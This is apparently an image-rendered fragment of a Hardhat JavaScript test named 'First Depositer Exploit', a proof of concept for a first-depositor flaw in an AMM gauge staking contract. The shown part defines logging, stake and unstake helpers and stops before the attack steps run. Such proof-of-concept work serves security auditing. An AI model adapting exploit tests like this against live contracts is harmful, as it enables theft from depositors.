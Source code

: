     it("First Depositer Exploit", async function () {
            let userShares = []
            let userIntegral = []
            let userBalance = []

            let globalIntegral, totalStaked;
            let aliceBob = [alice, bob];

            // Starting Checkpoint
            await this.ammgauge.poolCheckpoint();
            await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 10 days
            
            const updateStates = async () => { 
                userShares = []
                userIntegral = []
                userBalance = []
                for (const user of aliceBob) {
                    let balances = ethers.utils.formatEther(await this.ammgauge.balances(user.address));
                    let currentShare = ethers.utils.formatEther(await this.ammgauge.perUserShare(user.address));
                    let currentStakedIntegral = ethers.utils.formatEther(await this.ammgauge.perUserStakedIntegral(user.address));
                    userShares.push(currentShare);
                    userIntegral.push(currentStakedIntegral);
                    userBalance.push(balances);
                }
                globalIntegral = await this.ammgauge.ammStakedIntegral()
                totalStaked = await this.ammgauge.totalStaked()
                console.log("  ")
                console.log("         ALICE / BOB");
                console.log(`Shares: ${userShares}`);
                console.log(`Integr: ${userIntegral}`);
                console.log(`Balanc: ${userBalance}`);
                console.log("  ")
                console.log("Global")
                console.log(`Integral: ${ethers.utils.formatEther(globalIntegral)}, TotalStaked: ${ethers.utils.formatEther(totalStaked)}`)
            }

            const stake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).stake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.add(amount));
                // await updateStates();
                console.log(" ")
            }

            const unstake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).unstake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.sub(amount));
                await updateStates();
                console.log(" ")
            }
